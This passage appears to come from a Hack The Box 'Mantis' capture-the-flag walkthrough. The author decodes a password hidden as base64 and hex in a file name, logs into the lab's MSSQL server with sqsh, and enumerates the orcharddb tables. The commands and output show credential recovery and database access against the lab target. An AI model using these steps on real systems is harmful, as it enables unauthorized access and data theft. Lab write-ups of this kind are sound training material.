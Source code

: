 The `web.config` file throws a 404. The dev notes title looks like it has some base64 inside the name. The contents gives a username, `admin`, as well as a database name, `orcharddb`.

![notes](/img/mantis-notes.png)

Let's try to decode the base64 in the file name.

```
root@kali:~/htb/mantis# base64 -d <<< NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx
6d2424716c5f53405f504073735730726421
```
This doesn't match up with any hash lengths but it does look  like hexadecimal.

```
root@kali:~/htb/mantis# echo 6d2424716c5f53405f504073735730726421 | xxd -r -p
m$$ql_S@_P@ssW0rd!
```

Here we go! Finally some credentials to work with. If we try to connect into MSSQL using `sqsh` with the `sa` user and that password we get access denied. However using the password for the `admin` user let's us in.

```
root@kali:~/htb/mantis# sqsh -S 10.10.10.52 -U admin
sqsh-2.1.7 Copyright (C) 1995-2001 Scott C. Gray
Portions Copyright (C) 2004-2010 Michael Peppler
This is free software with ABSOLUTELY NO WARRANTY
For more information type '\warranty'
Password: 
1> 
```

Let's enumerate the table names inside `orcharddb`.

 _Note: I've cleaned up the formatting below, `sqsh` has terrible output formatting. You can output into a CSV file and view in something else however if needed. Soething like ` go -m csv > /root/htb/mantis/table.csv`_

```
1> SELECT TABLE_NAME FROM orcharddb.INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE';
2> go

	TABLE_NAME 

	-------------------------------------------------------------------------------

	blog_Orchard_Blogs_RecentBlogPostsPartRecord                  
	blog_Orchard_Blogs_BlogArchivesPartRecord  
	blog_Orchard_Workflows_TransitionRecord
	blog_Orchard_Workflows_WorkflowRecord  
	blog_Orchard_Workflows_WorkflowDefinitionRecord 
	blog_Orchard_Workflows_AwaitingActivityRecord 
	blog_Orchard_Workflows_ActivityRecord 
	blog_Orchard_Tags_TagsPartRecord 
	blog_Orchard_Framework_DataMigrationRecord 
	blog_Orchard_Tags_TagRecord       
	blog_Orchard_Tags_ContentTagRecord 
	blog_Settings_ContentFieldDefinitionRecord 
	blog_Orchard_Framework_DistributedLockRecord 
	blog_Settings_ContentPartDefinitionRecord  
```